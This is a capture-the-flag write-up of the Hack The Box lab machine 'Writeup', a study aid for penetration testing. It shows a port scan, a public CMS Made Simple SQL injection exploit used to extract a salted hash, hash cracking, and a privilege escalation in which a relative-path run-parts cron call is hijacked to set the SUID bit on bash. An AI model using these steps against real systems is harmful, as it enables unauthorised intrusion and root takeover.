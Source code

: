 # HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------

![Writeup.png](../assets/writeup_assets/Writeup.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.

![writeup_site.png](../assets/writeup_assets/writeup_site.png)

There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots/txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:

![writeup_writeup.png](../assets/writeup_assets/writeup_writeup.png)

Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public expploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:

![writeup_pw.png](../assets/writeup_assets/writeup_writeup_pw.png)

Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:

![writeup_user_flag.png](../assets/writeup_assets/writeup_user_flag.png)

### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitiely uncommon enough to warrant looking into.

Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:

![writeup_cron.png](../assets/writeup_assets/writeup_cron.png)

Interesting, it appears that once we SSH'd in, the root user issues a cronjob using `run-parts`, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above I set the SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.

![writeup_root_flag.png](../assets/writeup_assets/writeup_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------
